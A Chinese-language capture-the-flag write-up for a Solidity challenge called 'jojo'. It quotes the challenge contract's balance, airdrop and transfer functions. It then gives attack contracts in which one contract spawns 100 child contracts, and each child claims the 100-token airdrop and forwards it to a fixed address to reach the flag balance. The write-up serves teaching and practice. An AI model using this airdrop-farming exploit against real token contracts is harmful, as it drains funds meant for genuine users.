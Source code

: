 # 数字经济云公测CTF jojo

题目: [https://github.com/beafb1b1/challenges/tree/master/szjj/2019_jojo](https://github.com/beafb1b1/challenges/tree/master/szjj/2019_jojo)

首先我们想要payforflag，需要有10w余额
```js
    function payforflag(string b64email) public {
        require(balanceOf[msg.sender] >= 100000);
        emit SendFlag(b64email);
}
```
程序允许选手想合约转账，转账的以太坊数量就是余额
```js
function jojogame() payable{
        uint geteth=msg.value/1000000000000000000;
        balanceOf[msg.sender]+=geteth;
    }
```
空投函数gift
```js
function gift() public {
        assert(gift[msg.sender]==0);
        balanceOf[msg.sender]+=100;
        gift[msg.sender]=1;
}
```
转账函数
```js
    function transfer(address to,uint value) public{
        assert(balanceOf[msg.sender] >= value);
        balanceOf[msg.sender]-=value;
        balanceOf[to]+=value;
}
```
转战函数无法整形溢出，这里考点就是薅羊毛攻击
通过建立多个自合约领取空投，然后转账给固定账户即可完成攻击payforflag
```js
contract father {
    function createsons(){
        for (uint i=0;i<100;i++)
        {
            son ason=new son();
        }
    }
}

contract son {
    constructor() public{
        jojo tmp = jojo(0xd86ed76112295a07c675974995b9805912282eb3);
        tmp.gift();
        tmp.transfer(0xafFE1Eeea46Ec23a87C7894d90Aa714552468cAF,100);
    }
}
```